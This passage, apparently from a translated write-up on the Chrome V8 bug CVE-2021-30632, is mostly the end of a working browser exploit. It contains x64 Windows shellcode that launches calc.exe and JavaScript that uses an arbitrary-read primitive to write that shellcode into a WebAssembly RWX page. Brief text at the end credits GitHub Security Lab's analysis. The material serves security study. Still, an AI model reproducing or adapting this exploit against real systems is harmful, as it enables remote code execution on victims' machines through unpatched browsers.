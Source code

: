 ``` html
      0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,
      0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
      0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48,
      0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1,
      0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
      0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
      0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A,
      0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
      0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00,
      0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B,
      0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
      0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
      0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x2E,
      0x65, 0x78, 0x65, 0x00];

var rwxAddr;
if(other_method == false) {
  rwxAddr = arbRead(instanceAddr + 0x60);
  writeShellCode(rwxAddr, shellCode);
}
else {
  rwxAddr = arbRead1(instanceAddr + 0x60);
  writeShellCode1(rwxAddr, shellCode);
}

main();

</script>
</body>
</html>
```

Since the vulnerability exists within V8, you can see that the code above performs many operations that may seem incomprehensible. These operations are usually designed to satisfy certain conditions that trigger issues in V8. However, providing a detailed explanation is beyond the scope of this translation. If you're interested, you can refer to the detailed analysis written by the GitHub security team: [Chrome in-the-wild bug analysis: CVE-2021-30632](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_30632/)
